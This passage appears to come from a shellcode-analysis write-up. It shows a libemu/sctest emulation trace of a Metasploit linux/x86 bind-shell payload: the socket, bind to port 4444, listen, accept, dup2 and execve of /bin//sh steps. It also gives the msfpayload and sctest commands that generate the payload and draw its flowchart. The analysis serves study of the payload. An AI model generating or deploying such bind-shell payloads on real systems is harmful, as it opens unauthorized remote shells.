 ```c	
verbose = 3
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
 
int bind (
     int sockfd = 14;
     struct sockaddr_in * my_addr = 0x00416fc2 =>
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 0 (host=0.0.0.0);
             };
             char sin_zero = "       ";
         };
     int addrlen = 16;
) =  0;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 =>
         none;
     int addrlen = 0x00000010 =>
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb2 =>
           = "/bin//sh";
     const char * argv[] = [
           = 0x00416faa =>
               = 0x00416fb2 =>
                   = "/bin//sh";
           = 0x00000000 =>
             none;
     ];
     const char * envp[] = 0x00000000 =>
         none;
) =  0;
```
Produce execution flowchart:
To produce an execution flowchart of the shellcode payload the following commands are issued.
```bash
$ sudo msfpayload -p linux/x86/shell_bind_tcp R | sctest -vvv -Ss 1000000 -G shell_bind_tcp.dot
$ dot shell_bind_tcp.dot -Tpng -o shell_bind_tcp.png
```
This will produce the following flowchart.
